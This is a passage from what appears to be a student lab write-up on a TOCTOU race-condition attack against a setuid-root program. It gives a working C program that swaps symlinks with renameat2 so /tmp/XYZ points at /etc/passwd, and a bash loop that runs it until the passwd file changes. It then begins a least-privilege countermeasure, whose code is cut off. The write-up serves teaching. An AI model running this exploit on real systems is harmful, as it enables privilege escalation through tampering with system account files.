 It took us arround 2 minutes for it to work, but as we found out, it does not always work. That is because, with the script above, we created our own race condition! When we delete **/tmp/XYZ**, create it again and link it, the vulp script might beat us to the file creation and create **/tmp/XYZ** himself. That might not seem like a problem, but now the file is created and owned by root and that means that we cannot delete it anymore and change its symbolic link making the exploit not work anymore.
There is a solution, we can use a C library to swap symbolic links without removing the **/tmp/XYZ**, as we see below:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main()
{
    unsigned int flags = RENAME_EXCHANGE;
    unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
    unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
    renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
    return 0;
}
```

With the **link_script.c** done we can now create a new bash script:

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./link_script
    new=$($CHECK_FILE)
done
echo "STOP... passwd file has been changed"
```

The problem is now solved and we can now exploit the vulnerability without aditional troubles.

## Task 6: Countermeasures

What makes the **vulp** script vulnerable is that it does not obey the **Principle of Least Privilege**. The program runs as a root, and that can cause many problems, the programmer tried to limit those problems by introducing the **access** to limit the user's powers. This is not the way, it does not limit the user's privileges and there is a better way to do that like we show bellow:

```c
#include <stdio.h>
#include<unistd.h>

int main()
{
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* get user input */
    scanf("%50s", buffer );

    if(!access(fn, W_OK)){ 
        uid_t original_uid = geteuid();
        seteuid(100);
        fp = fopen(fn, "a+"); 
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
```